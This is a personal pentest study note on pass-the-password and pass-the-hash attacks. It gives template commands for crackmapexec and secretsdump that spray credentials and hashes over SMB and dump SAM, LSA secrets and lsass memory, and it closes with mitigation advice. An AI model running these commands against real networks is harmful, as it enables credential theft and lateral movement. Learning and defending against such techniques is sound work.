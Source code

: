 What are pass attacks? (Pass the Password/Pass the Hash)

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

![[Pasted image 20240828172033.png]]

We will primarily use a tool called crackmapexec whose syntax will look something like this:

```bash
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <password>
```

![[Pasted image 20240828172250.png]]

Lets say we have some hashes that we got from metasploit after running hashdump

![[Pasted image 20240828172414.png]]

 Or we can use a tool called secretsdump like so:

```bash
secretsdump.py <DC>/<user>:<password> @ <ip_of_DC>
```

We can then use crackmapexec to pass the hash as well by this command:

```bash
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth
```

![[Pasted image 20240828172648.png]]

We can additionally use crackmapexec to dump valuable data:

```bash
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam (or --shares, --lsa)
```

![[Pasted image 20240828172805.png]]

It even has built in modules...

```bash
crackmapexec smb -L
```

![[Pasted image 20240828172932.png]]

For example, we can dump the lsass with lsassy

```bash
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M lsassy
```

![[Pasted image 20240828173043.png]]

There is also a database for crackmapexec which tells you how many attempts a user has made to login and stuff

```bash
cmedb
```

![[Pasted image 20240828173156.png]]

Mitigation:

It is hard to completely prevent, but we can make it more difficult on a hacker:

1) Limit account re-use:
	1) Avoid re-using local admin password
	2) Disable Guest and Administrator accounts
	3) Limit who is a local administrator(least privilege)
2) Utilize strong passwords:
	1) The longer the better (>14 characters)
	2) Avoid using common words
	3) I like long sentences
3) Privilege Access Management(PAM):
	1) Check out/in sensitive accounts when needed
	2) Automatically rotate passwords on check out and check in
	3) Limits pass attacks as hash/password is strong and constantly rotated